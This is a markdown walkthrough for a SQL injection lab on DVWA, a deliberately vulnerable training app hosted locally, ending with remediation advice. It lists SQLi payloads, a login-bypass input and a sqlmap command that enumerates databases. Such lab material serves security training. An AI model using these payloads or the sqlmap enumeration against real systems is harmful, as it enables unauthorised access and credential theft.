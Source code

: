 `DVWA-SQLi-Walkthrough.md` – SQL injection test case with payloads and output

 DVWA-SQLi-Walkthrough.md
```markdown
# 🔍 DVWA SQL Injection Walkthrough

 🔧 Environment
- **Application**: Damn Vulnerable Web Application (DVWA)
- **Security Level**: Low
- **Tool**: Burp Suite, Firefox, SQLMap (optional)

 🎯 Objective
Exploit SQL Injection in the login page and extract user credentials.

---

 🧪 Steps

 1. Navigate to the SQL Injection module in DVWA:
```
http://localhost/dvwa/vulnerabilities/sqli/
```

### 2. Interact with the input field:
Input: `1' OR '1'='1`

Submit → Observe that all users are displayed — indicating **SQLi exists**.

---

 🧰 Useful Payloads
```sql
1' OR '1'='1 -- 
1' OR '1'='1' #
' OR 1=1--
admin' --
' OR '' = '
```

---

🔐 Authentication Bypass Example
Input in login:
- Username: `admin' -- `
- Password: `anything`

Login successful. This proves SQLi can bypass login authentication.

---

 🧪 Automate with SQLMap
```bash
sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=xyz" --dbs
```

- `--dbs`: enumerate all databases
- `--tables -D dvwa`: list all tables in DVWA database

---

 ✅ Remediation
- Use prepared statements (e.g., PDO in PHP)
- Validate and sanitize inputs
- Employ WAF and least-privilege database roles
  
